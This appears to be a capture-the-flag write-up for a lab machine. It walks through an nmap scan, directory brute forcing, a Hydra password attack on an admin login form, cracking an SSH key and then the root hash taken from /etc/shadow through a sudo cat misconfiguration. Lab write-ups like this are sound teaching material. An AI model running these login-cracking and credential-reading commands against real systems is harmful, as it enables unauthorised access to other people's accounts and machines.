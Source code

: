 ```yaml
---
layout: post
author: Fr4nSec
tags: [Linux, HTTP POST]
---
```


## Objectives

- Username and password of the admin panel
- User flag
- Web flag
- root password
- root flag


## Recon

Let's scan the target IP address..

```
nmap -p 22,80 -sCV 10.10.201.153 > PortScan
cat PortScan
```
![scan1](/images/bruteit/scan1.png)

Port 80 is open. Let's see what's there:

```
gobuster dir -u http://10.10.201.153:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster](/images/bruteit/gobuster.png)

There is something at /admin (http://10.10.201.153/admin)

![adminpanel](/images/bruteit/adminpanel.png)

Always check the source code

![sourcecode](/images/bruteit/sourcecode.png)




## Exploitation

Now we know the username is **'admin'** and notice the payload of the POST request. We can use this to brute force the login page. For this we will need a word from a failed attempt.

![request](/images/bruteit/request.png)

And we use Hydra to brute force

```
hydra -l admin -P /home/kali/rockyou.txt 10.10.201.153 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
```

![hydra](/images/bruteit/hydra.png)

We cracked the password of the panel admin account. Let's access.

![flag0](/images/bruteit/flag0.jpg)

 We have a flag now and a RSA private key that we can download. Let's crack it.
 
 ![john](/images/bruteit/john.png)
 
 Now we use the SSH Key to access the target (remember to make sure the SSH Key has the correct permissions.
 
 To change permissions:
 
 ```
chmod 600 id_rsa
```
 
 Let's connect:
 
 ```
ssh -i id_rsa john@10.10.201.153
```
 
 ![ssh1](/images/bruteit/ssh1.png)
 

## Privilege escalation

 In these situations, one of the first things i usally do is to check if the user has any privilege with sudo
 
 ```
sudo -l
```

![sudo](/images/bruteit/sudo.png)

It seems that this user can use 'cat' as sudo! That means we can read anything!

 ```
sudo cat /etc/shadow | grep root > roothash
cat roothash
```

![cat](/images/bruteit/cat.png)

We can now crack the hash:

 ```
john roothash --wordlist=/home/kali/rockyou.txt
```

![crack](/images/bruteit/crack.png)

